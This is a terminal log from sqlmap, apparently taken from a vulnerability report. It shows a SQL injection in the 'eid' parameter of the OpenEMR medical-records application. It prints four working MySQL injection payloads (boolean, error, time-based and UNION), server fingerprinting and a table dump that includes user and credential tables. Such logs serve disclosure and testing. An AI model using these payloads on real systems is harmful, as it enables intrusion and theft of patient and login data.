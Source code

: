 ~~~term
[*] starting @ 13:07:58 /2021-04-23/

[13:07:58] [INFO] parsing HTTP request from 'openemr.req'
[13:07:58] [INFO] resuming back-end DBMS 'mysql' 
[13:07:58] [INFO] testing connection to the target URL
[13:07:58] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (6722=6722) THEN 1 ELSE (SELECT 8202 UNION SELECT 8377) END))

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: eid=1 AND GTID_SUBSET(CONCAT(0x71626a6a71,(SELECT (ELT(4791=4791,1))),0x7162627171),4791)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 4310 FROM (SELECT(SLEEP(5)))nHfp)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x71626a6a71,0x685273536564596f59706b79575448676665704a484f696d6c52744b6b6a46437a68687751595054,0x7162627171),NULL-- -
---
[13:07:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38, PHP 7.2.34
back-end DBMS: MySQL >= 5.6
[13:07:58] [INFO] fetching tables for database: 'openemr'
Database: openemr
[234 tables]
+---------------------------------------+
| array                                 |
| groups                                |
| log                                   |
| version                               |
| addresses                             |
| amc_misc_data                         |
| amendments                            |
| amendments_history                    |
| ar_activity                           |
| ar_session                            |
| audit_details                         |
| audit_master                          |
| automatic_notification                |
| background_services                   |
| batchcom                              |
|.                                      |
|.                                      |
|.#SHORTENED FOR EASE OF REPORT         |
| transactions                          |
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
| voids                                 |
| x12_partners                          |
+---------------------------------------+
~~~